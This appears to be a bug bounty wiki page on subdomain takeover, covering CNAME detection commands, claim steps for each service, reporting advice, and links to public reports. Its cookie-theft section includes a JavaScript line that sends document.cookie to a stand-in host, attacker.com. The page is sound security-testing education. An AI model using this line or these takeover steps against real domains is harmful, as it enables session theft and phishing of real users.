

> Source: https://bugbounty.info/Attack-Surface/Web/Client-Side/Subdomain-Takeover

# Subdomain Takeover

Subdomain takeover is one of the cleanest bug classes  -  find a dangling CNAME pointing to a cloud service that hasn't been claimed, register it, and you control content on `something.target.com`. Programs that have mature infra love paying for these because they're easy to verify, clearly in scope, and embarrassing if left open.

## The Mechanic

A company sets up `blog.target.com` pointing to their Heroku app. They shut down the Heroku app but forget to remove the DNS record. The CNAME still resolves to `someapp.herokuapp.com`  -  which anyone can register. You register it. You now serve content on `blog.target.com`.



## Detection

### Automated Scanning

```bash
# Enumerate subdomains
subfinder -d target.com -silent | dnsx -silent -cname -o cnames.txt
 
# Feed to nuclei for takeover fingerprinting
nuclei -l subdomains.txt -t nuclei-templates/takeovers/ -o results.txt
 
# Alternatively, can-i-take-over-xyz has a curated fingerprint list
# https://github.com/EdOverflow/can-i-take-over-xyz
```

### Manual Verification

When automated tools flag a subdomain, verify manually:

```bash
# Check the CNAME chain
dig blog.target.com CNAME +short
 
# Check if the final destination resolves and what it serves
curl -ski https://blog.target.com | head -20
 
# Common vulnerable responses
# - "There is no app deployed at this address" (Heroku)
# - "NoSuchBucket" (S3)
# - "Repository not found" (GitHub Pages)
# - Azure: "404 Web Site not found"
# - Fastly: "Fastly error: unknown domain"
```

## Service-Specific Patterns

### Amazon S3

```text
CNAME -> somebucket.s3.amazonaws.com
```

Response when vulnerable: `NoSuchBucket`. Create a bucket with the exact same name in any region. Upload an `index.html`. Done.

### GitHub Pages

```text
CNAME -> someorg.github.io
```

Response when vulnerable: `There isn't a GitHub Pages site here.` or 404 from GitHub. Register a GitHub org/user matching the name, create a repo, enable Pages.

### Heroku

```text
CNAME -> someapp.herokuapp.com
```

Response: `No such app`. Create a Heroku app with that name, add the custom domain in Heroku settings.

### Azure

```text
CNAME -> something.azurewebsites.net
CNAME -> something.cloudapp.azure.com
CNAME -> something.trafficmanager.net
```

Azure is harder  -  name registration requires matching the Azure subscription. But the Traffic Manager variant is still common.

### Other Services Worth Checking

Fastly, Pantheon, Ghost.io, Tumblr (deprecated but CNAMEs linger), Zendesk, Surge.sh, Readme.io, HubSpot, Shopify custom domains.

The [can-i-take-over-xyz](https://github.com/EdOverflow/can-i-take-over-xyz) repo is the canonical reference  -  check it for current status of each service.

## Exploitation: Cookie Theft

The real escalation is when the target scopes cookies to the parent domain:

```http
Set-Cookie: session=abc123; Domain=.target.com; Path=/; Secure
```

That `.target.com` means the cookie is sent to every subdomain  -  including your taken-over one. Host a page that reads `document.cookie`, and any victim who visits your subdomain while logged in leaks their session.

```javascript
// Hosted on taken-over subdomain
document.location = 'https://attacker.com/steal?c=' + encodeURIComponent(document.cookie);
```

Check for parent-domain scoped cookies before writing up your impact. If you see `Domain=.target.com` on an auth cookie, the severity jumps significantly.

## Beyond Cookie Theft

Even without parent-domain cookies, a subdomain takeover gives you:

- A trusted origin for [CORS](../../../Attack-Surface/Web/Client-Side/CORS) chains (if the app trusts `*.target.com`)
- A same-site context that bypasses SameSite=Lax for [CSRF](../../../Attack-Surface/Web/Client-Side/CSRF)
- A credible phishing domain under the target's brand
- A vector for [postMessage](../../../Attack-Surface/Web/Client-Side/postMessage-Vulnerabilities) exploits if the main app trusts messages from subdomains

## Reporting

Document:

1. The exact CNAME chain (`dig` output)
2. The vulnerable service fingerprint (curl output showing the error page)
3. Proof you can register it  -  a screenshot or the actual registration
4. What cookies are scoped to `.target.com`
5. A hosted PoC page demonstrating the impact (phishing page or cookie theft demo)

Don't just report the DNS issue without demonstrating exploitation. "Dangling CNAME" by itself is infrastructure hygiene. Cookie theft via taken-over subdomain is an account takeover finding.

## Checklist

- Run subfinder + dnsx to enumerate subdomains with CNAME records
- Run nuclei takeovers template against CNAME results
- Manually verify flagged subdomains with dig and curl
- Check if service name is available for registration
- Inspect target cookies for `Domain=.target.com` scoped auth cookies
- Check if main app CORS policy trusts `*.target.com`
- Check SameSite posture  -  does a same-site context help bypass CSRF?
- Claim the service (within program rules), document with timestamps

## Public Reports

Real-world subdomain takeover findings across bug bounty programs:

- Subdomain takeover on HackerOne (support.hackerone.com) - [HackerOne #220002](https://hackerone.com/reports/220002)
- GNIP subdomain takeover on Twitter - [HackerOne #189548](https://hackerone.com/reports/189548)
- Subdomain takeover on Roblox creatorforum via abandoned Discourse - [HackerOne #264494](https://hackerone.com/reports/264494)
- Subdomain takeover on Zenly brand.zen.ly - [HackerOne #1474784](https://hackerone.com/reports/1474784)

## See Also

- [CORS Misconfigurations](../../../Attack-Surface/Web/Client-Side/CORS)
- [CSRF](../../../Attack-Surface/Web/Client-Side/CSRF)
- [Subdomain Enumeration](../../../Recon/Subdomain-Enumeration)
